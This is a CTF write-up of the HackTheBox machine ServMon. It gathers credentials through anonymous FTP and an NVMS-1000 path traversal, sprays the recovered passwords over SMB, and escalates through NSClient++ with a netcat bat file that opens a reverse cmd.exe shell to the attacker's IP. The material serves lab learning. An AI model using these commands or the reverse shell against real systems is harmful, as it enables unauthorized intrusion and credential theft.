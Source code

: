 ```yaml
---
title: HackTheBox ServMon
author: Marius Kimmina
date: 2020-06-21 14:10:00 +0800
categories: [CTF, HackTheBox]
tags: [ftp, Windows, path traversal]
published: true
---
```



## 0x0 Introduction
Yet another Windows box. In this one  we use anonymous ftp access to find out about the existens of some internal files and then abuse a path traversal vulnerability to get hold of these files. Once we are on the box we use an exploit for NSClient++ to escalate privileges to System. 
![image](/assets/images/ServMon/servmon-pic.png "ServMon")

## 0x1 Getting a foothold and the user.txt

As always I started with a nmap scan (I left out some not all that relevant skript results to keep the output short)

```
$ nmap -sC -sV -oN nmap 10.10.10.184
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-07 11:52 CEST
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
80/tcp   open  http
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  nrpe?
6699/tcp open  tcpwrapped
8443/tcp open  ssl/https-alt
```
The first things to look at here are the Website, the anonymous login ftp, and maybe smb.  
The Website only gave us a login page with not much else to see tho, so lets not waste too much time there.
SMB did not allow anonymous login, which means without credentials we can't do much there either.
FTP does allow anonymous login tho and contained some interesting Information:
```
$ ftp 10.10.10.184
Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:mindslave): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:05PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
```
Going into the Nadine and Nathan directory we also got two .txt files the first is in Nadines directory, it's called Confidental.txt 

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards
```
The second one is in Nathans directory and is called 'Notes to do.txt' (to download this file via ftp u had to use \ for the whitespaces: get Notes\ to\ do.txt)
```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

I Found the NSClient that Nathan was talking about on 10.10.10.184:8443, for this I had to go take another look at the nmap result from before:
```
8443/tcp  open  https-alt
```

Upon clicking 'forgot password' on the NSClient application it told me run the following commands, what a goofy application. 
```
nscp web -- password --display
nscp web -- password --set new-password testing
```

looking up NSClient in searchsploit brought up a Priveledge escalation so this might be useful for getting the root flag latter on.  
That means once we are on the box we can get the password for NSClient++ easily and possibly get root that way, right now that's not very helpful tho, so lets move on.
Next thing that I looked for was anonymous access to the rpcclient but with no success
```
rpcclient -U "" -N 10.10.10.184                                                                                                                          
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```

Now I started looking into this 'napster' thing thats running on the box on port 6699, seems to be some music download service, a very old one tho, there are only 2 public cve's for napster one from 1999 and one from 2000.


Tried to exploit the nrpe (part of nagios) that's running on the box, but no success

```
$ /usr/lib/nagios/plugins/check_nrpe -H 10.10.10.184
CHECK_NRPE: Error - Could not connect to 10.10.10.184. Check system logs on 10.10.10.184
```

So, after all of this failed, I went back to the frontdoor of the box, the nvms-1000 running on port 80. It turns out that this thing has a 'path traversal' vulnerability, and since we know that nathan has a 'Passwords.txt' file on his desktop, that comes in very handy.  
I send a request to the application intercepted it with burp and used the repeater to find the 'passwords.txt' file.

![image](/assets/images/ServMon/Burp-path-traversal.png "path traversal")

Now I have a few possible passwords:
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

none of these worked on nvms-1000 nor on NSClient++ but trying them out on smb gave me a hit:

```
$ crackmapexec smb 10.10.10.184 -u Nathan -p pw.txt 
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)                         
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE                                                       
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE                                                              
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE                                                         
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE                                                          
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE

$ crackmapexec smb 10.10.10.184 -u Nadine -p pw.txt                                                                                 
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE                                                       
SMB         10.10.10.184    445    SERVMON          [-] SERVMON\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE                                                            
SMB         10.10.10.184    445    SERVMON          [+] SERVMON\Nadine:L1k3B1gBut7s@W0rk
```

```
$ smbmap -u Nadine -p 'L1k3B1gBut7s@W0rk' -H 10.10.10.184 
[+] IP: 10.10.10.184:445        Name: 10.10.10.184                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

And it also worked for as Nadines ssh password, which gave us the user.txt
```
nadine@SERVMON C:\Users\Nadine\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users\Nadine\Desktop

08/04/2020  22:28    <DIR>          .
08/04/2020  22:28    <DIR>          ..
23/05/2020  10:23                34 user.txt
```

# 0x02 Getting the root.txt
Now that we are logged in as Nadine we can get the password for the nsclient++ instance that we have discovered before
```
nadine@SERVMON C:\>"Program Files\NSClient++\nscp.exe" web -- password --display
Current password: ew2x6SsGTxjRwXOT
```
Because the page is only accessible from localhost we had to use ssh port forwarding to access the nsclient++ from our maschine. 
```
$ ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
```


Next, there are 2 things we need to copy over to the ServMon maschine, first a bat file with the following content to execute netcat:

```
@echo off
c:\temp\nc.exe 10.10.14.103 9001 -e cmd.exe
```

And of course the nc.exe itself, to bring both of these over to ServMon I used scp:

```
$ scp boese.bat nadine@10.10.10.184:/temp
$ scp nc.exe nadine@10.10.10.184:/temp
```

Now we configure the NSClient++ to run our boese.bat file, and since NSClient++ has to run with root or system privileges, this will give us a shell as System.

![image](/assets/images/ServMon/nsclient-script.png "NSClient++")

Once you have that configured you hit Control -> Reload, wait a second or two and you will have your shell as System

![image](/assets/images/ServMon/servmon-system.png "We are system")
